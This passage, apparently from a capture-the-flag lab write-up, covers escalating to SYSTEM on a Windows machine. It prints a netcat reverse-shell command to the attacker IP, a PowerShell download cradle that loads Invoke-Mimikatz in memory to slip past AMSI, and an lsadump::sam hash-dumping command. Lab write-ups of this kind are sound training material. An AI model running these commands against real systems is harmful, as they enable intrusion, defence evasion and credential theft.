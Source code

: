 -   **Lets start our listener for our reverse-shell**:
    -   `rlwrap -cAr nc -nvlp 443`
    -   {{< figure src="/ox-hugo/2024-11-04-194636_.png" >}}

-   **I trigger exploit and pass n64.exe as an argument**:
    -   `.\ex.exe 1208 1 "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 443 -e cmd"`
    -   {{< figure src="/ox-hugo/2024-11-04-194705_.png" >}}
    -   **High level Command Breakdown**:
        -   `.\ex.exe`: The compiled exploit executable
        -   `1208`: Process ID to target
        -   `1`: Execution mode flag
        -   Netcat parameters:
            -   `10.10.14.121`: Our attack IP address
            -   `443`: Port to connect back to
            -   `-e cmd`: Execute cmd.exe and bind it to the connection

-   **Catch** `NT/Authority` **system shell**:
    -   {{< figure src="/ox-hugo/2024-11-04-194750_.png" >}}

-   **Grab root flag**:
    -   {{< figure src="/ox-hugo/2024-11-04-194858_.png" >}}


## 4. Persistence: {#4-dot-persistence}


### Trying to dump creds with mimikatz: {#trying-to-dump-creds-with-mimikatz}

-   **I try and Transfer** `mimikatz` **but it gets caught by** `amsi`
    -   {{< figure src="/ox-hugo/2024-11-04-200330_.png" >}}
    -   I try multiple different ways however it's caught each time, luckily there are versions of mimikatz we can from memory:


### Using invoke-mimikatz.ps1 with a download cradle to dump hashes: {#using-invoke-mimikatz-dot-ps1-with-a-download-cradle-to-dump-hashes}

-   **Use a download cradle to grab the script**:
    -   `iex(new-object net.webclient).downloadstring('http://10.10.14.121:9000/Invoke-Mimikatz.ps1')`
-   **Perform LSADUMP**:
    -   `Invoke-Mimikatz -Command '"privilege::debug" "lsadump::sam"'`
    -   +Note+: With this information we can make a `kerberos` silver ticket; however we have no way to actually authenticate with the host once it's made as nothing is open&#x2026;so we will need to look at other solutions.
        -   {{< figure src="/ox-hugo/2024-11-05-130731_.png" >}}


#### Download Cradle Primer: {#download-cradle-primer}

-   We are going to be using a download cradle later, so it's probably best you understand how they work.

